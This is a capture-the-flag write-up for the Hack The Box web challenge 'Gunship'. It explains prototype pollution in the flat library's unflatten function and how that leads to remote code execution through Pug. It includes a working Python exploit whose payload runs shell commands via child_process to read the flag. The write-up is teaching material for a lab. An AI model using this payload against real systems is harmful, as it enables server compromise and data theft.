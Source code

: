 ```yaml
---
title: Gunship - Hack The Box
date: 2024-10-20
---
```


<script setup>
    import ChallengeCard from "../../../../../.vitepress/components/ChallengeCard.vue";
</script>

# Gunship

![Gunship](/ctf/hack-the-box/challenges/web/gunship/gunship.gif)

## Challenge Description

In this challenge, we were tasked with exploiting a web application named Gunship. The application is a Single Page
Application (SPA), and at the bottom of the page, there is a form where users can submit their favorite artist's name.

We were also provided with the source code of the application, which revealed potential vulnerabilities that could be
leveraged to compromise the system.

![Gunship](/ctf/hack-the-box/challenges/web/gunship/gunship-home.png)

## Code Review

### Key Dependencies

By reviewing the package.json file, we identified that the application uses several Node.js libraries, including:

```json
{
    "dependencies": {
        "express": "^4.17.1",
        "flat": "5.0.0",
        "pug": "^3.0.0"
    }
}
```

::: info Notably:

- Pug (version 3.0.0) is used to render server responses and is known to be vulnerable to prototype pollution.
- Flat (version 5.0.0), a library that converts nested objects into flat key/value pairs and vice versa, is used in the
  request handling process. The unflatten function from this library also has potential weaknesses that allow for
  prototype pollution.
  :::

### Endpoint Analysis

The form submits user input via a POST request to the /api/submit endpoint. The vulnerable portion of the server-side
code can be seen below:

```javascript
const { unflatten } = require("flat");

router.post("/api/submit", (req, res) => {
    const { artist } = unflatten(req.body);

    if (artist.name.includes("Haigh") || artist.name.includes("Westaway") || artist.name.includes("Gingell")) {
        return res.json({
            "response": pug.compile("span Hello #{user}, thank you for letting us know!")({ user: "guest" }),
        });
    } else {
        return res.json({
            "response": "Please provide us with the full name of an existing member.",
        });
    }
});
```

- Pug is used to render the response based on user input.
- The unflatten function processes the request body. However, it is vulnerable to prototype pollution, allowing us to
  manipulate the object prototype.

## Exploitation - Prototype Pollution

### Vulnerability: Prototype Pollution

By exploiting the prototype pollution vulnerability in flat’s unflatten function, we can inject arbitrary properties
into the `artist` object’s prototype. This can lead to remote code execution (RCE) through the Pug templating engine.

### Exploit Strategy

We will use Python to craft and send a malicious payload to the vulnerable `/api/submit` endpoint, injecting a `block`
object into the prototype of the `artist` object. This injected object will execute system commands on the server.

```python
import requests

url = "http://localhost:1337/api/submit"

payload = {
    "artist.name": "Haigh",
    "__proto__.block": {
        "type": "Text", 
        "line": "process.mainModule.require('child_process').execSync('$(cat flag*)')"
    }
}

r = requests.post(url, json=payload)
print(r.json())
```

### Explanation of the Payload

- **Prototype Injection**: The payload injects the `block` object into the prototype of the `artist` object using the
  `__proto__` property.
- **Command Execution**: The `block.line` property is set to execute a command using **Node.js** to read a file that
  starts
  with `flag` (`cat flag*`), typically containing the challenge flag.
- **Why `$()`?**: The `$()` syntax ensures that the command (`cat flag*`) is evaluated and executed by the system.

### Result of the Exploit

After sending the crafted payload, the server returns the following response:

```
HTB{f4k3_fl4g_f0r_t3st1ng}
```

We got the flag!
Now you can try this on the HTB server to get the real flag.

<ChallengeCard
    challengeType="web"
    challengeName="Gunship"
    htbCardLink="https://www.hackthebox.com/achievement/challenge/585215/245"
/>

## References

- [Github - pug - Code Injection](https://github.com/pugjs/pug/issues/3312)
- [Hacktricks - Pug Prototype Pollution](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution#pug-vulnerability)
